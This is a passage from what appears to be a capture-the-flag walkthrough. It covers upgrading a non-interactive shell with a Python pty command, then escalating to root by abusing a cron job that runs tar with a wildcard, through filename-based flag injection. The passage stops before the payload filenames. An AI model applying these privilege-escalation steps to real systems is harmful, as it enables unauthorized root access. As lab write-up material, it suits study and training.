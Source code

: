 It works!!! This shell isn't particularly interactive so we can improve it just like a reverse shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
# ctrl+z
stty raw -echo && fg
export SHELL=/bin/bash
export TERM=screen
```

## Root
> Are there any processes run as root on a schedule?
{: .prompt-tip }

By checking `/etc/crontab` we can see a list of scheduled 
commands and what privileges they run with

```bash
cat /etc/crontab
```

![crontab](/images/apg/apg-crontab.png)

Every minute root will compress everything in spooky's home directory using a tar wildcard
> Can wildcards be abused when run with tar?
{: .prompt-tip }

By using 
[wildcard injection](https://www.exploit-db.com/papers/33930){:target="_blank"}{:rel="noopener noreferrer"}
we can run arbitrary commands through tar. Using 
filenames with the same format as a command flag will 
enable these options for the running program, and 
[tar has options which can execute code](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#tar){:target="_blank"}{:rel="noopener noreferrer"}.
We can set up the tar commands with the following
